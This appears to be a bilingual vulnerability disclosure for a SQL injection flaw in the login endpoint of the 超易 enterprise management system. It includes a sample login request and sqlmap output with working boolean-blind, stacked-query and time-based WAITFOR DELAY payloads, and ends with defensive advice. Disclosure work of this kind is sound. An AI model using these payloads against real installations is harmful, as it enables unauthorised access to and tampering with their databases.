

超易企业管理系统 sql注入漏洞

官网：https://www.cysoft168.com/

超易企业管理系统 存在SQL注入；‌SQL注入漏洞是一种针对数据库驱动的应用程序的安全漏洞攻击技术。攻击者通过在应用程序的输入字段中插入或“注入”恶意的SQL代码，从而实现对数据库的非法访问和操作。这种漏洞形成的原因主要是在数据交互过程中，前端的数据传入后端时，没有作严格的验证过滤，导致传入的“数据”拼接到了SQL语句中，被数据库当作SQL语句的一部分执行。这使数据面临被脱库、恶意破坏篡改甚至造成整个系统权限沦陷等一系列危害。注入攻击的本质是把用户输入的数据当作代码执行，造成注入攻击有两个关键条件：用户能够控制输入，并且输入被直接拼接到SQL查询语句中

------

SQL injection exists in super easy enterprise management system. ‌SQL Injection vulnerability is a security vulnerability attack technique that targets database-driven applications. Attackers achieve illegal access to and manipulation of databases by inserting or "injecting" malicious SQL code into the application's input fields. The main reason for the formation of this vulnerability is that in the process of data interaction, when the front-end data is passed into the back-end, there is no strict verification filter, resulting in the incoming "data" spliced into the SQL statement, which is executed by the database as part of the SQL statement. This makes the data face a series of hazards such as dewarehousing, malicious destruction and tampering, and even the whole system authority fall. The essence of injection attacks is to execute user input data as code. There are two key conditions for injection attacks: the user can control the input, and the input is directly concatenated into the SQL query statement


POST data

```http
POST /ajax/Login.ashx?Date=%271721821198459%27 HTTP/1.1
Host: 127.0.0.1:8092
Content-Length: 92
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=njeyytrv0o0nxlh2rzqpupoj
Connection: close

username=admin&password=admin123&loginguid=d6d17e17-d214-4a2e-88a7-739a7226c005&logintype=pc
```



sqlmap:

```
sqlmap identified the following injection point(s) with a total of 152 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 9646=9646-- XcBn&password=admin123&loginguid=d6d17e17-d214-4a2e-88a7-739a7226c005&logintype=pc

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: username=admin';WAITFOR DELAY '0:0:5'--&password=admin123&loginguid=d6d17e17-d214-4a2e-88a7-739a7226c005&logintype=pc

    Type: time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: username=admin' WAITFOR DELAY '0:0:5'-- FWZy&password=admin123&loginguid=d6d17e17-d214-4a2e-88a7-739a7226c005&logintype=pc
---
```


Methods of defending against SQL injection include:

Use Preparedstatements, which have built-in capabilities to handle SQL injection.
Strengthen the verification and filtering of user input to ensure the security of data input.
Parameter value passing: Do not write variables directly into SQL statements. You must pass related variables by setting corresponding parameters.
Use security parameters: Set specific SQL security parameters during database design.
The permissions of common users and system administrators should be strictly distinguished to avoid giving unnecessary database permissions.
Hierarchical management: Strictly controls user permissions and grants only necessary operation permissions.
